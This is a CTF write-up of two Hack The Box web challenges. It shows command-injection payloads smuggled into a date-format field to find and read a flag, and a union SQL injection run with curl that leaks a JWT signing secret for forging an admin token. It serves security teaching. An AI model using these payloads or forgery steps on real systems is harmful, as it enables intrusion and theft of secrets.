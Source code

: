 ```yaml
---
layout: post
category: writeup
---
```



![](assets/images/usfbanner.webp)

![](assets/images/htb-ctf-usf-1st.png)

- HTB hosted a CTF locally here at USF under our business platform
- we got to participate and ended up being 1st!
- my writeup on the various challenges

### DeLorean Clock 

#### Dr. Brown wants to jump on the web 3.0 bandwagon and make his DeLorean controllable via blockchain! He made a web interface of the DeLorean time clock but launching the DeLorean to a miscalculated date can create a time paradox, the result of which could cause a chain reaction that would unravel the very fabric of the space-time continuum and destroy the entire universe! Can you test if the web interface is accurate and secure?

- this challenge was quite easy as there wasn't much to attack
- we were faced with a singular input that seems like it maps to `utils.py` in the provided files:

```
import subprocess, os
from application import main

generate = lambda x: os.urandom(x).hex()

def format_date(timestr):
    try:
        formatCMD = f'date -d "{timestr}" +"%h %d %Y %H %M"'
        formatDate = subprocess.getoutput(formatCMD)
    except:
        formatDate = 'Jan 01 1970 00 00'
    return formatDate
```

- that is an obvious command injection
- i search other files and i don't see any sanitization so i can input something like this

```
$(find / -name flag.txt 2>/dev/null)
```

![](assets/images/htb-ctf-usf-find-flag.png)

- all is left is to read the flag

```
$(cat /app/flag.txt)
```

![](assets/images/htb-ctf-usf-deloeran-clock-flag.png)

- flag: `HTB{d0nt_p4ss_Us3r_Inpu7s_t0_c0mm4ndl1n3}`

### MadDog Memorial 

#### You have been tasked with the pentesting engagement on the memorial website of the great Buford "Mad Dog" Tannen, who was a true patriotic countryman and the pride of Hill Valley! The Tannen family has asked you to find out any loopholes in the system and see if the admin account can be compromised. They don't want any teenager or a mad scientist to break in and discover the secrets they are hiding!

- this was a much more fun challenge, it involved an interesting exploit chain
- it starts with understanding the database structure:

```
DEVKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)
PRODKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)

mysql -u root << EOF
CREATE DATABASE tannen_memorial;

CREATE TABLE tannen_memorial.keystore (
  kid int(11) NOT NULL AUTO_INCREMENT,
  secret varchar(255) NOT NULL,
  PRIMARY KEY (kid)
);

INSERT INTO tannen_memorial.keystore VALUES (1,'${DEVKEY}');
INSERT INTO tannen_memorial.keystore VALUES (2,'${PRODKEY}');
```

- this creates a database called `tannen_memorial` and in that database it creates a table called `keystore`, in there it has `kid` and `secret`.
- from there it inserts completely random values into the keystore secrets
- the next thing we need to understand is the jwt implementation, that exists in the `JSTHelpers.js` file:

```
sign(data, kid='2') {
		return new Promise(async (resolve, reject) => {
			try {
                keyData = keyStore.filter(i => i.kid == kid)
                if(keyData.length === 0) reject();
                resolve(jwt.sign(data, keyData[0].secret, {
			        algorithm: 'HS256',
			        header: { kid: kid }
		        }));
            } catch (e) {
				reject(e);
			}
        });
	}
```
- this clearly shows that it grabs the secret from the keystore where kid = 2 and sets it as the jwt secret
- so in my head at this point, i'm thinking if there is any way i can read the database i can possibly get the secret and exploit the jwt token
- which takes us to `database.js`:

```
   async getPost(id) {
        return new Promise(async (resolve, reject) => {
            let stmt = `SELECT * FROM posts WHERE id='${id}'`;
            this.connection.query(stmt, (err, result) => {
                if(err)
                    reject(err)
                resolve(result)
            })
        });
    }
```
- this function has a clear and obvious sqli in the `/posts/:id` endpoint
- i'll try a union sqli and attempt to read the secret, i already know the table and column name so all i'll need to do is find the column # count.

- start by curling the `/posts/1` endpoint

```
$ curl http://161.35.173.232:31576/posts/1 -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/mad1.jpg" alt="Post unavailable!">
                  <h4 class="card-title mb-1">The Hero</h4>
                  <p class="card-text">Our Ancestor, Buford Tannen, was regarded as a hero for catching the thieves who robbed the Pine City Stage back in 1885. Although he was suspected of robbing the stagecoach earlier, he cleared his name later by identifying the real culprit. He guided the chief marshal to the house of a man named Seamus McFly, where they discovered a payroll from the stagecoach in the house. Hill valley recognized Buford as a hero for his assistance in finding the robbers.</p>
```

- i next try to union select 1 column:

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201--%20- -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <h4 class="card-title">ERROR</h4>
                  <p class="card-text">Opps! Something went wrong!</p>
```

- that results in an error, so i'll start adding #'s until i get different feedback

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201,2,3,4--%20- -s | grep card  
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/3" alt="Post unavailable!">
                  <h4 class="card-title mb-1">2</h4>
                  <p class="card-text">4</p>
```

- this returns the values 2 and 4 as seen in the h4 and p tags
- i can now try to read a secret from the keystore values

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201,secret,3,4%20from%20keystore--%20- -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/3" alt="Post unavailable!">
                  <h4 class="card-title mb-1">yEgEoSOKXmT50LM</h4>
                  <p class="card-text">4</p>
```

- bingo! i got a secret, this must be the dev secret aka kid 1 since that is the secret that i read. i can try and see if that works by editing it in jwt.io

![](assets/images/htb-ctf-usf-maddog-jwt.png)

- note that i change the kid to 1 and the secret key at the bottom to the correct value
- i take that cookie and i submit it in my browser -> refresh -> and read the flag on the main page!

![](assets/images/htb-ctf-usf-maddog-flag.png)

- flag: `HTB{t4nn3n_fr4m3d_th3_mcFly}`

### 